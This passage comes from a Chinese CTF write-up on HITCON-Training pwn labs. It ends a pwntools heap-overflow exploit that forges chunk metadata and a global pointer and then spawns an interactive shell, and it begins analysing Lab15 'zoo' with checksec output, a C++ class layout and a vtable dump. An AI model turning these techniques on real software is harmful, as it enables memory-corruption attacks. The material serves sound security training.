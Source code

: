 ```python
addr = 0x6020c0 - 0x10
payload = "a" * 0x10 + p64(0x20) + p64(0x91) + "aaaaaaaa" + p64(addr)
edit(0, len(payload), payload)
create(0x80, "d") 

p.interactive()

```

## Lab15——zoo ##

### 防护 ###

该题没有开启NX和PIE，只有canary。

```
liwc@ubuntu:~/pwn/HITCON-Training/LAB/lab15$ checksec zoo
[*] '/home/liwc/pwn/HITCON-Training/LAB/lab15/zoo'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments


```

### 分析 ###

该题是C++编写的。首先会读入0x64bytes到全局变量nameofzoo。

#### adddog ####

要求输入name和weight，然后new一个0x28的dog对象，调用构造函数初始化，然后向animallist这个vector中插入当前dog对象。

逆向可得Dog类的结构如下：有两个成员函数和两个成员变量，存储name和weight。

```c++
class Dog : Animal{
	void speak();
	void info();
	char name[24];// + 8
	long weight; // + 32
}


```

其中成员函数指向rodata段的vtable。

```
.rodata:0000000000403130 `vtable for'Dog dq 0                    ; offset to this
.rodata:0000000000403138                 dq offset `typeinfo for'Dog
.rodata:0000000000403140 off_403140      dq offset Dog::speak(void)
.rodata:0000000000403140                                         ; DATA XREF: Dog::Dog(std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>,int)+1F↑o
.rodata:0000000000403148                 dq offset Dog::info(void)
.rodata:0000000000403150                 public `vtable for'Animal ; weak

```
